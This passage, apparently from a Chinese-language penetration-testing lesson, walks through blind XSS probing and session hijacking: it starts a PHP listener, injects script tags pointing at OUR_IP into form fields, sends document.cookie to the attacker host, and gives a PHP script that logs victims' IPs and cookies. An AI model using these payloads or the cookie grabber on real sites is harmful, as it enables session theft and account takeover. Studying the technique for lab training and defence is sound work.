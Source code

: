 正如我们所见，各种负载以`'>`等注入开始，这可能会也可能不会起作用，取决于我们的输入在后端是如何处理的。如前面在XSS发现部分提到的，如果我们能访问源代码（即在DOM XSS中），就有可能精确地编写成功注入所需的负载。这就是为什么盲XSS在DOM XSS类型的漏洞中有较高的成功率。

在开始发送负载之前，我们需要在攻击机上使用启动监听器：

```bash
mkdir /tmp/tmpserver
cd /tmp/tmpserver
sudo php -S 0.0.0.0:80
```

现在我们可以逐个测试这些负载，在所有输入字段中使用其中一个，并在我们的IP后面附加字段名称，如前所述：

```html
<script src=http://OUR_IP/fullname></script> #这放在full-name字段中
<script src=http://OUR_IP/username></script> #这放在username字段中
```

提示：我们会注意到电子邮件必须匹配电子邮件格式，即使我们尝试操作HTTP请求参数，因为它在前端和后端都进行了验证。因此，电子邮件字段不易受攻击，我们可以跳过测试它。同样，我们可以跳过密码字段，因为密码通常会被哈希，而不是以明文显示。这有助于我们减少需要测试的潜在脆弱输入字段的数量。

一旦我们找到有效的XSS负载并识别出脆弱的输入字段，我们就可以进行XSS利用并执行会话劫持攻击。

会话劫持攻击与我们在上一节执行的钓鱼攻击非常相似。它需要JavaScript负载向我们发送所需的数据，以及在我们服务器上托管的PHP脚本来抓取和解析传输的数据。

我们可以使用多种JavaScript负载来抓取会话Cookie并将其发送给我们，如PayloadsAllTheThings所示：

```javascript
document.location='http://OUR_IP/index.php?c='+document.cookie;
new Image().src='http://OUR_IP/index.php?c='+document.cookie;
```

使用这两种负载中的任何一种都应该能发送Cookie，但我们将使用第二种，因为它只是向页面添加了一个图像，可能看起来不太恶意，而第一种则导航到我们的Cookie抓取PHP页面，可能看起来很可疑。

我们可以将这些JavaScript负载之一写入`script.js`：

```javascript
new Image().src='http://OUR_IP/index.php?c='+document.cookie
```

现在，我们可以更改之前找到的XSS负载中的URL，以使用`script.js`

```html
<script src=http://OUR_IP/script.js></script>
```

在PHP服务器运行的情况下，我们现在可以使用代码作为XSS负载的一部分，将其发送到易受攻击的输入字段，我们应该会收到带有Cookie值的调用。但是，如果有许多Cookie，我们可能不知道哪个Cookie值属于哪个Cookie标头。因此，我们可以编写一个PHP脚本，用新行分隔它们并将它们写入文件。在这种情况下，即使多个受害者触发XSS漏洞，我们也会获得所有受害者按顺序排列的Cookie。

我们可以将以下PHP脚本保存为index.php，并重新运行PHP服务器：

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```
